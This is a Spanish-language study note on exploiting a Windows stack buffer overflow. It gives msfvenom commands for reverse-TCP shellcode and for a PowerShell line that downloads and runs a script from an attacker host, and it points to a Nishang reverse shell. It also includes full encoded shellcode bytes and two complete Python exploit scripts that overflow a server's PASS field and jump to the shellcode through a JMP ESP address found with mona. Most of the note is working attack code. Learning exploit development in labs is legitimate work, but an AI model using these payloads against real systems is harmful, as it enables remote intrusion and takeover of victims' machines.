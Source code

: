 #BufferOverflow #ShellCode 

Debemos de generar un *shellcode* en hexadecimal a bajo nivel que se encargue de entablar una reverse shell, este *shellcode* será introducido en el *ESP* para que sea interpretado y dos de acceso a la máquina.
Usaremos [[MSFVENOM]]
`msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.1.22 LPORT=443 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread`
	*-p* = Payload
	*--platform* = SO
	*-a* = Arquitectura
	*LHOST* = IP atacante
	*LPORT* = Puerto de escucha
	*-f* = Formato (ej: py, c, js...)
	*-e* = Encoder
	*-b* = Badchars
	*EXITFUNCT=thread* = Para no romper el proceso principal y el servicio siga estando operativo

En caso de querer obtener una powersehll:
` msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://<IP_atacante>/PS.ps1')" --platform windows -a x86 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread`
Con una shell `https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1`, que nos la tenemos que descargar y añadir al final del codigo:
``

Nos generara el *shellcode*
```shell
"\xbb\xfb\x85\x16\xf3\xdb\xc2\xd9\x74\x24\xf4\x5a\x2b\xc9"
"\xb1\x52\x31\x5a\x12\x03\x5a\x12\x83\x11\x79\xf4\x06\x19"
"\x6a\x7b\xe8\xe1\x6b\x1c\x60\x04\x5a\x1c\x16\x4d\xcd\xac"
"\x5c\x03\xe2\x47\x30\xb7\x71\x25\x9d\xb8\x32\x80\xfb\xf7"
"\xc3\xb9\x38\x96\x47\xc0\x6c\x78\x79\x0b\x61\x79\xbe\x76"
"\x88\x2b\x17\xfc\x3f\xdb\x1c\x48\xfc\x50\x6e\x5c\x84\x85"
"\x27\x5f\xa5\x18\x33\x06\x65\x9b\x90\x32\x2c\x83\xf5\x7f"
"\xe6\x38\xcd\xf4\xf9\xe8\x1f\xf4\x56\xd5\xaf\x07\xa6\x12"
"\x17\xf8\xdd\x6a\x6b\x85\xe5\xa9\x11\x51\x63\x29\xb1\x12"
"\xd3\x95\x43\xf6\x82\x5e\x4f\xb3\xc1\x38\x4c\x42\x05\x33"
"\x68\xcf\xa8\x93\xf8\x8b\x8e\x37\xa0\x48\xae\x6e\x0c\x3e"
"\xcf\x70\xef\x9f\x75\xfb\x02\xcb\x07\xa6\x4a\x38\x2a\x58"
"\x8b\x56\x3d\x2b\xb9\xf9\x95\xa3\xf1\x72\x30\x34\xf5\xa8"
"\x84\xaa\x08\x53\xf5\xe3\xce\x07\xa5\x9b\xe7\x27\x2e\x5b"
"\x07\xf2\xe1\x0b\xa7\xad\x41\xfb\x07\x1e\x2a\x11\x88\x41"
"\x4a\x1a\x42\xea\xe1\xe1\x05\xd5\x5e\xe8\xc3\xbd\x9c\xea"
"\xea\x86\x28\x0c\x86\xe8\x7c\x87\x3f\x90\x24\x53\xa1\x5d"
"\xf3\x1e\xe1\xd6\xf0\xdf\xac\x1e\x7c\xf3\x59\xef\xcb\xa9"
"\xcc\xf0\xe1\xc5\x93\x63\x6e\x15\xdd\x9f\x39\x42\x8a\x6e"
"\x30\x06\x26\xc8\xea\x34\xbb\x8c\xd5\xfc\x60\x6d\xdb\xfd"
"\xe5\xc9\xff\xed\x33\xd1\xbb\x59\xec\x84\x15\x37\x4a\x7f"
"\xd4\xe1\x04\x2c\xbe\x65\xd0\x1e\x01\xf3\xdd\x4a\xf7\x1b"
"\x6f\x23\x4e\x24\x40\xa3\x46\x5d\xbc\x53\xa8\xb4\x04\x73"
"\x4b\x1c\x71\x1c\xd2\xf5\x38\x41\xe5\x20\x7e\x7c\x66\xc0"
"\xff\x7b\x76\xa1\xfa\xc0\x30\x5a\x77\x58\xd5\x5c\x24\x59"
"\xfc"
```

Este código lo implementaremos en el exploit:
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	offset = 4654 #Ofset que nos ha dado metasploit
	
	before_eip = b"A"*offset #Cadena de A antes de llegar al offset(valor del EIP)
	eip = b"B"*4 #Cadena con el valor del EIP, es *4 por que es la capacidad del registro EIP
	
	shellcode = (b"\xbb\xfb\x85\x16\xf3\xdb\xc2\xd9\x74\x24\xf4\x5a\x2b\xc9"
				 b"\xb1\x52\x31\x5a\x12\x03\x5a\x12\x83\x11\x79\xf4\x06\x19"
				 b"\x6a\x7b\xe8\xe1\x6b\x1c\x60\x04\x5a\x1c\x16\x4d\xcd\xac"
				 b"\x5c\x03\xe2\x47\x30\xb7\x71\x25\x9d\xb8\x32\x80\xfb\xf7"
				 b"\xc3\xb9\x38\x96\x47\xc0\x6c\x78\x79\x0b\x61\x79\xbe\x76"
				 b"\x88\x2b\x17\xfc\x3f\xdb\x1c\x48\xfc\x50\x6e\x5c\x84\x85"
				 b"\x27\x5f\xa5\x18\x33\x06\x65\x9b\x90\x32\x2c\x83\xf5\x7f"
				 b"\xe6\x38\xcd\xf4\xf9\xe8\x1f\xf4\x56\xd5\xaf\x07\xa6\x12"
				 b"\x17\xf8\xdd\x6a\x6b\x85\xe5\xa9\x11\x51\x63\x29\xb1\x12"
				 b"\xd3\x95\x43\xf6\x82\x5e\x4f\xb3\xc1\x38\x4c\x42\x05\x33"
				 b"\x68\xcf\xa8\x93\xf8\x8b\x8e\x37\xa0\x48\xae\x6e\x0c\x3e"
				 b"\xcf\x70\xef\x9f\x75\xfb\x02\xcb\x07\xa6\x4a\x38\x2a\x58"
				 b"\x8b\x56\x3d\x2b\xb9\xf9\x95\xa3\xf1\x72\x30\x34\xf5\xa8"
				 b"\x84\xaa\x08\x53\xf5\xe3\xce\x07\xa5\x9b\xe7\x27\x2e\x5b"
				 b"\x07\xf2\xe1\x0b\xa7\xad\x41\xfb\x07\x1e\x2a\x11\x88\x41"
				 b"\x4a\x1a\x42\xea\xe1\xe1\x05\xd5\x5e\xe8\xc3\xbd\x9c\xea"
				 b"\xea\x86\x28\x0c\x86\xe8\x7c\x87\x3f\x90\x24\x53\xa1\x5d"
				 b"\xf3\x1e\xe1\xd6\xf0\xdf\xac\x1e\x7c\xf3\x59\xef\xcb\xa9"
				 b"\xcc\xf0\xe1\xc5\x93\x63\x6e\x15\xdd\x9f\x39\x42\x8a\x6e"
				 b"\x30\x06\x26\xc8\xea\x34\xbb\x8c\xd5\xfc\x60\x6d\xdb\xfd"
				 b"\xe5\xc9\xff\xed\x33\xd1\xbb\x59\xec\x84\x15\x37\x4a\x7f"
				 b"\xd4\xe1\x04\x2c\xbe\x65\xd0\x1e\x01\xf3\xdd\x4a\xf7\x1b"
				 b"\x6f\x23\x4e\x24\x40\xa3\x46\x5d\xbc\x53\xa8\xb4\x04\x73"
				 b"\x4b\x1c\x71\x1c\xd2\xf5\x38\x41\xe5\x20\x7e\x7c\x66\xc0"
				 b"\xff\x7b\x76\xa1\xfa\xc0\x30\x5a\x77\x58\xd5\x5c\x24\x59"
				 b"\xfc")
	
	payload = before_eip + eip + shellcode
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + payload + b'\r\n') #En el campo PASS introducira el payload que es igual a 4654 + eip
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
```


Una vez detectados los *badchars* y generado el *shellcode* tendremos que buscar un *OpCode (Operaration Code)* que ejecute un *jump* a *ESP*
Para eso usaremos `!mona modules` en donde las 4 primeras columnas tienes que estar en FALSE, nos copiamos la dirección del modulo.
Ahora buscaremos la instrucción tipo *jump ESP* para ver si dentro del modulo que hemos encontrado hace esta *OpCode*
Para saber el *OpCode* usaremos `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` en la consola que nos da buscaremos `jmp ESP`
Nos devolverá cual es el *OpCode* en este caso `\xFF\xE4`
Ahora usaremos `!mona find -s "\xFF\xE4" -m <Nombre_modulo>`
Nos mostrara direcciones, tendremos que buscar una que no contenga los *badchars* encontrados antes.
La copiamos y lo añadirmos al valor de *EIP* en nuestro script.

```python
	#!/usr/bin/python3
	
	from struct import pack
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	offset = 4654 #Ofset que nos ha dado metasploit
	
	before_eip = b"A"*offset #Cadena de A antes de llegar al offset(valor del EIP)
	eip = pack("<L", 0x5f4c4d13) #Cadena con el valor del EIP, en little endian que le da la vuelta y lo invierte
	
	shellcode = (b"\xbb\xfb\x85\x16\xf3\xdb\xc2\xd9\x74\x24\xf4\x5a\x2b\xc9"
				 b"\xb1\x52\x31\x5a\x12\x03\x5a\x12\x83\x11\x79\xf4\x06\x19"
				 b"\x6a\x7b\xe8\xe1\x6b\x1c\x60\x04\x5a\x1c\x16\x4d\xcd\xac"
				 b"\x5c\x03\xe2\x47\x30\xb7\x71\x25\x9d\xb8\x32\x80\xfb\xf7"
				 b"\xc3\xb9\x38\x96\x47\xc0\x6c\x78\x79\x0b\x61\x79\xbe\x76"
				 b"\x88\x2b\x17\xfc\x3f\xdb\x1c\x48\xfc\x50\x6e\x5c\x84\x85"
				 b"\x27\x5f\xa5\x18\x33\x06\x65\x9b\x90\x32\x2c\x83\xf5\x7f"
				 b"\xe6\x38\xcd\xf4\xf9\xe8\x1f\xf4\x56\xd5\xaf\x07\xa6\x12"
				 b"\x17\xf8\xdd\x6a\x6b\x85\xe5\xa9\x11\x51\x63\x29\xb1\x12"
				 b"\xd3\x95\x43\xf6\x82\x5e\x4f\xb3\xc1\x38\x4c\x42\x05\x33"
				 b"\x68\xcf\xa8\x93\xf8\x8b\x8e\x37\xa0\x48\xae\x6e\x0c\x3e"
				 b"\xcf\x70\xef\x9f\x75\xfb\x02\xcb\x07\xa6\x4a\x38\x2a\x58"
				 b"\x8b\x56\x3d\x2b\xb9\xf9\x95\xa3\xf1\x72\x30\x34\xf5\xa8"
				 b"\x84\xaa\x08\x53\xf5\xe3\xce\x07\xa5\x9b\xe7\x27\x2e\x5b"
				 b"\x07\xf2\xe1\x0b\xa7\xad\x41\xfb\x07\x1e\x2a\x11\x88\x41"
				 b"\x4a\x1a\x42\xea\xe1\xe1\x05\xd5\x5e\xe8\xc3\xbd\x9c\xea"
				 b"\xea\x86\x28\x0c\x86\xe8\x7c\x87\x3f\x90\x24\x53\xa1\x5d"
				 b"\xf3\x1e\xe1\xd6\xf0\xdf\xac\x1e\x7c\xf3\x59\xef\xcb\xa9"
				 b"\xcc\xf0\xe1\xc5\x93\x63\x6e\x15\xdd\x9f\x39\x42\x8a\x6e"
				 b"\x30\x06\x26\xc8\xea\x34\xbb\x8c\xd5\xfc\x60\x6d\xdb\xfd"
				 b"\xe5\xc9\xff\xed\x33\xd1\xbb\x59\xec\x84\x15\x37\x4a\x7f"
				 b"\xd4\xe1\x04\x2c\xbe\x65\xd0\x1e\x01\xf3\xdd\x4a\xf7\x1b"
				 b"\x6f\x23\x4e\x24\x40\xa3\x46\x5d\xbc\x53\xa8\xb4\x04\x73"
				 b"\x4b\x1c\x71\x1c\xd2\xf5\x38\x41\xe5\x20\x7e\x7c\x66\xc0"
				 b"\xff\x7b\x76\xa1\xfa\xc0\x30\x5a\x77\x58\xd5\x5c\x24\x59"
				 b"\xfc")
	
	payload = before_eip + eip + shellcode
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + payload + b'\r\n') #En el campo PASS introducira el payload que es igual a 4654 + eip
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
```
